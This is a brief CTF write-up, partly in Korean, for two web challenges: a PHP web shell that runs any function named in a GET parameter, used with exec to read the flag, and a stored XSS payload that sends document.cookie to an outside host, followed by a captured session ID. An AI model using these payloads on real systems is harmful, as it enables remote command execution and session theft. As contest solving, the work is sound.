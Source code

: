 
## Web

### Boxipreter  ( 880p )

```
php ssh.....? this is so vulnerable....

http://121.170.91.18/Boxipreter
```



```python
<?php

$f = $_GET['f'];
$a1 = $_GET['a1'];

echo "f : ".$f;
echo "a1 : ".$a1;

echo "<br>";
echo "go : ".$f($a1);

?>
```

- ex.php

```url
http://121.170.91.18/Boxipreter/tmp/tmp_0bed45bd5774ffddc95ffe500024f628.php?f=exec&a1=cat%20/var/www/html/Boxipreter/flag
```

- payload

검색하다가 비슷한 풀이법이 있길래 복붙했다.

flag : dimi{B0x1Pr3teR_1s_ver7\_@wesome_!1!}



### DIMI SIMPLE BOARD 2  ( 920p )

```
관리자는 여러분들의 의견을 잘 듣습니다.
BLIND STORED XSS
http://121.170.91.15/jtjjtjjtjjtjjtjj/
```



```javascript
<script>location="http://youngjoo.nefus.kr/web/?g="+document.cookie</script>
```

- payload

```
PHPSESSID=6c0tpicbdlg2qf93fvivm5mbd7
```
